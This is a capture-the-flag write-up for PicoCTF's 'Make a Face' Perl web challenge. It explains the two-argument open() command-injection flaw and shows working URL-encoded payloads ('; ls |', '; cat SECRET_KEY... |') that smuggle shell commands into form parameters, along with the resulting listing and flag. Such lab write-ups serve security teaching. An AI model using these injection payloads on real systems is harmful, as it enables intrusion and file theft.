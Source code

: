 ## Make a Face
This challenge is from Pico CTF. We are given a link to a web application built using Perl. Our goal is to find any vulnerability in the perl script so that we can execute shell in the server. 

After some googling, it is easy to find out that perl's (2-arguments form) ```open()``` function has a security flaw: luckily, several ```open()``` functions appear in the source code. 
```
  open(HEAD,"head".$q->param('Head'));
  open(HAIR,"hair".$q->param('Hair'));
  open(NOSE,"nose".$q->param('Nose'));
  open(MOUTH,"mouth".$q->param('Mouth'));
  open(EYES,"eyes".$q->param('Eyes'));
```

The security flaw here is that the second argument of these ```open()``` functions comes from user input which is not sanitized at all. A normal usage through the browser would not affect the application; however, it is possible that a user sends arbitrary data that may not correspond with the data types specified in html and/or javascript. See the follwing code snippet that creates the form

```
$q->table(
    $q->Tr($q->td([$q->b("Head"),$q->input({-name=>"Head",-type=>'range',-min=>1,-max=>4})])),
    $q->Tr($q->td([$q->b("Hair"),$q->input({-name=>"Hair",-type=>'range',-min=>0,-max=>2})])),
    $q->Tr($q->td([$q->b("Nose"),$q->input({-name=>"Nose",-type=>'range',-min=>1,-max=>3})])),
    $q->Tr($q->td([$q->b("Mouth"),$q->input({-name=>"Mouth",-type=>'range',-min=>1,-max=>3})])),
    $q->Tr($q->td([$q->b("Eyes"),$q->input({-name=>"Eyes",-type=>'range',-min=>1,-max=>3})]))
   ),
```
The input type of these variables are set to ```range```, but we can set these variables to anything we want using ```curl``` or any other means. 

Let's get back to the vulnerablity in the ```open(FILEHANDLER, filename)``` function. If the filename begins with "|", the filename is interpreted as a command to which output is to be piped, and if the filename ends with a "|", the filename is interpreted as a command which pipes output to us. So we can run any shell command in that directory of the filename. What we should pay attension to is that we have strings attached before our input, for example, "nose" for ```open(NOSE,"nose".$q->param('Nose'));```. To overcome this nuisance, we can simply attach ";" before the our input, so that ```nose;``` will be read as a command (obviously invalid), followed by the command that we supply. 

Also we must understand how user input is sent over to the server (the CGI script). Taking a look at the line ```<script src="/js.js" type="text/javascript"></script>``` and checking the content of ```js.js```, we see the following snippet. 
```
 var image = new Image();
  image.src = "index.cgi?Head="+head.value+".bmp&Hair="+hair.value+".bmp&Nose="+nose.value+".bmp&Mouth="+mouth.value+".bmp&Eyes="+eyes.value+".bmp";
```
So our data is sent to the CGI script using GET method through URL. Since we are using special characters "|", " " and ";", we have to URL encode our input. Say we want to see the inside of the directory by issuing the command "ls". We can achieve this by supplying "; ls |", which is url-encoded to "%3Bls%20%7C". 

This is not complete though. Another small complication lies in the block
```
  while (read(HEAD,$headb,1)) {
    read(HAIR,$hairb,1);
    read(NOSE,$noseb,1);
    read(MOUTH,$mouthb,1);
    read(EYES,$eyesb,1);
    print (chr (ord($headb)&ord($hairb)&ord($noseb)&ord($mouthb)&ord($eyesb)));
  }
```

```ord()``` function returns the numerical (ASCII) value of the first character in the string, while ```chr()``` does the opposite. So what this loop does is that it enumerates through all the chracters in the string, perform Bitwise AND on the numerical values of the characters in corresponding indices, and then convert the result back to a character. This is easy to bypass - we just set all the user inputs to the exact same input.  

Now let's exploit. Simply feed the following URL.
```
http://makeaface.picoctf.com/index.cgi?Head=%3Bls%20%7C&Hair=%3Bls%20%7C&Nose=%3Bls%20%7C&Mouth=%3Bls%20%7C&Eyes=%3Bls%20%7C
```
This will return us a corrupted .bmp file. That's fine, just change the extension to .txt, and we should see the output of the "ls" command. The first result looks interesting
```
SECRET_KEY_2b609783951a8665d8c67d721b52b0f8
css.css
eyes1.bmp
eyes2.bmp
eyes3.bmp
eyes4.bmp
hair0.bmp
hair1.bmp
hair2.bmp
head1.bmp
head2.bmp
head3.bmp
head4.bmp
index.cgi
js.js
mouth1.bmp
mouth2.bmp
mouth3.bmp
nose1.bmp
nose2.bmp
nose3.bmp
```
So let's ```cat``` and see its content. This time, the command we want to feed is "; cat SECRET_KEY_2b609783951a8665d8c67d721b52b0f8 |", which is equivalent to "%3B%20cat%20SECRET_KEY_2b609783951a8665d8c67d721b52b0f8%20%7C". Do the same as before, and open the .txt file. The flag is 

```why_did_we_stop_using_perl_again?```
